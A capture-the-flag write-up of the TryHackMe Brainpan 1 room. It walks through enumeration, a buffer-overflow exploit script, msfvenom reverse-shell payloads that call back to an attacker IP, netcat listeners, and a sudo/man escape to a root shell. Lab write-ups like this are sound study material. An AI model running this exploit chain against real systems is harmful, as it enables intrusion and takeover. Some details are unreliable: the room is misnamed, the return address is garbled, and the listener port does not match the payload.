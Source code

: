 ```yaml
---
title: Brainpan1-writeup-THM
date: 2024-01-04
categories: [room, hard]
tags: [windows, privesc, bufferoverflow]     # TAG names should always be lowercase
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/overpass">Overpass</a>"

I am going to start with a nmap scan:

```bash
nmap 10.10.143.30                      

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-03 12:34 EST
Nmap scan report for 10.10.143.30
Host is up (0.058s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT      STATE SERVICE
9999/tcp  open  abyss
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 7.40 seconds
```

```bash
9999/tcp  open  abyss?
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)
```

Port 9999 contains the program:

```bash
nc 10.10.143.30 9999
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD
```

And 10000 contains a http server:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled.png)

The site doesn’t tell us much, but I used ffuf for enumerating the subdirectories:

```bash
ffuf -u http://10.10.143.30:10000/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.143.30:10000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

bin                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 65ms]
```

He found the bin directory, which contains the exe!

I moved the exe in my windows machine with Immunity Debugger and mona installed.

And I started the server:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%201.png)

I will use this code for getting a reverse shell:

```bash
import socket

ip = "10.10.6.37"
port = 9999

offset = 0
overflow = "A" * offset
retn = ""
padding = "\x90" * 16
payload = ""
postfix = ""

buffer =  overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

With 600 bytes the server crushes.

So I am going to use metasploit to create a payload:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```

And I got the offset using mona: 

```bash
!mona findmsp -distance 5000
```

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%202.png)

Now I can put the offset in the offset variable inside the script.

I am going to start searching for the bad characters:

Using a payload with all the characters and compare it with mona we get this:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%203.png)

After that we search for the jmp:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%204.png)

We need to put this in the retn variable of the script: \zf3\x12\x17\x31 (It is reversed because of the little eldiana rchitecture, which x86 CPUs have.)

Then we generate our payload:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.18.20.116 LPORT=4444 EXITFUNC=thread -b "\x00\x01\x02\x03\x04\x06\x07" -f c
```

And put it in the code.

And now if we run the code we should have a shell:

```bash
nc -lvnp 4444                                                                                     
listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.6.37] 49292
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop>
```

Now I am just going to change the ip of the script and put the one of the machine, and we should have a shell in the remote server: 

- note, i have used another msfvenom payload for this one:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.18.20.116 LPORT=4444 EXITFUNC=thread -b "\x00\x01\x02\x03\x04\x06\x07" -f c
```

```bash
nc -lvnp 4555
listening on [any] 4555 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.143.30] 41139
ls
checksrv.sh
web
python -c 'import pty;pty.spawn("/bin/bash")' 
puck@brainpan:/home/puck$ sudo -l
sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
puck@brainpan:/home/puck$
```

Nice!

We can see that we can run anansi_util with root

```bash
sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

The interessing thing is the manual command, which is the man command.

```bash
sudo /home/anansi/bin/anansi_util manual /bin/sh
/usr/bin/man: manual-/bin/sh: No such file or directory
/usr/bin/man: manual_/bin/sh: No such file or directory
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN) 
DASH(1)                   BSD General Commands Manual                  DASH(1)

NAME
     dash — command interpreter (shell)

SYNOPSIS
     dash [-aCefnuvxIimqVEb] [+aCefnuvxIimqVEb] [-o option_name]
          [+o option_name] [command_file [argument ...]]
     dash -c [-aCefnuvxIimqVEb] [+aCefnuvxIimqVEb] [-o option_name]
          [+o option_name] command_string [command_name [argument ...]]
     dash -s [-aCefnuvxIimqVEb] [+aCefnuvxIimqVEb] [-o option_name]
          [+o option_name] [argument ...]

DESCRIPTION
     dash is the standard command interpreter for the system.  The current
     version of dash is in the process of being changed to conform with the
     POSIX 1003.2 and 1003.2a specifications for the shell.  This version has
     many features which make it appear similar in some respects to the Korn
     shell, but it is not a Korn shell clone (see ksh(1)).  Only features des‐
     ignated by POSIX, plus a few Berkeley extensions, are being incorporated
     into this shell.  This man page is not intended to be a tutorial or a
     complete specification of the shell.

 Manual page sh(1) line 1 (press h for help or q to quit)!/bin/sh
!/bin/sh
# whoami
whoami
root
```

And just like that we got a root shell!